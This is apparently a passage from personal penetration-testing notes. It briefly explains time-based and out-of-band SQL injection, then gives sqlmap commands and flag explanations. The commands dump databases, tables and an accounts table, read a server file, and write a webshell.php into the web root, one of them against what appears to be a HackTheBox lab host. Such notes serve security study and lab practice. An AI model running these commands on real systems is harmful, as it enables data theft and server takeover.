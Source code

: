 ## Timed Based
As for Time Based SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns true using the Sleep() function.

# Out Of Band
In some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.


* * *

# SQLMap:
```bash
sqlmap -r request.req --dbs
sqlmap -r request.req -D main --tables
sqlmap -r request.req -D main -T user --columns
sqlmap -r request.req -D main -T user --dump
sqlmap -r req.req --level=5 --risk=3 --batch --file-read=/var/www/html/index.php>
sqlmap -r req.req --level=5 --risk=3 --batch --file-write=/home/kali/Downloads/Exploit/webshell.php --file-dest=/var/www/html/webshell.php
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 --level 5 --risk 3 --batch -D soccer_db -T accounts --dump
```
  - `-r` Request file
  - `--level` (max 5)
  - `--risk` (max 3)
  - `--batch` Ask no questions
  - `--no-cast` Assure the correct content
  - `--fresh-queries` Run the query again
  - `--prefix` Add a prefix before every payload
  - `--suffix` Add a suffix after every payload

  **Data Enumeration**
  - `--banner` Database version banner
  - `--current-user` Current user name
  - `--current-db` Current database name 
  - `--is-dba` Checking if the current user has administrator rights.

  **Data Exfiltration**
  - `--dbs` Enumerate databases
  - `--tables` Enumerate DB tables
  - `--columns` Enumerate columns
  - `--dump` Get table values if table is given, if not all of the current database content will be retrieved
  - `-D` Select DB
  - `-T` Select Table
  - `-C` Select Columns
  - `--dump-all --exclude-sysdbs` All the content from all the databases will be retrieve except the content from system databases
  - `--where="name LIKE 'f%'"` Conditional Enumeration
